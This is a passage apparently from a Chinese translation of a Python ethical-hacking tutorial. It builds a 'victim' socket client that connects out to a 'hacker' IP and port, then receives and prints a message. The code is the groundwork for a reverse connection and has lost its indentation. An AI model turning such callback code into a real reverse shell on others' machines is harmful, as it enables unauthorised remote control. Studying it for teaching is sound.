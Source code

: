 if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

由于我们要连接到黑客，我们需要提供黑客的 IP 地址和黑客监听的端口。

接下来，我们将为 **hacker_address** 创建一个元组。

下一步是使用受害者的 socket 与黑客 **connect()** 连接：

victim_socket.connect(hacker_address)

一旦调用此方法，如果服务器正在监听，我们将成功建立连接，否则我们将看到错误信息。如果现在运行程序，你会看到连接被拒绝的消息：

![图 6.4 – 连接失败](img/B14788_06_04.jpg)

图 6.4 – 连接失败

这是因为，如果某个端口上没有服务器在监听，所有传入的流量默认会被阻塞。记得在我们的黑客程序中，我们正在发送一条消息吗？我们需要在这里处理这条消息，否则会遇到错误。我们可以使用 **recv** 方法接收消息：

data = victim_socket.recv(1024)

**1024**是套接字一次可以读取的字节数。来自黑客的数据如果超过这个数量，会被截断。我们可以使用循环来接收更多数据。现在，这个数值已经足够。

最后，由于我们以字节形式接收数据，我们需要将其解码为字符串，以便打印出来，并在程序中稍后使用（如果需要的话）：

print(data.decode())

victim_socket.close()

我们可以使用**close()**方法关闭套接字。完整的程序如下：

import socket

if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

victim_socket.connect(hacker_address)

data = victim_socket.recv(1024)

print(data.decode())
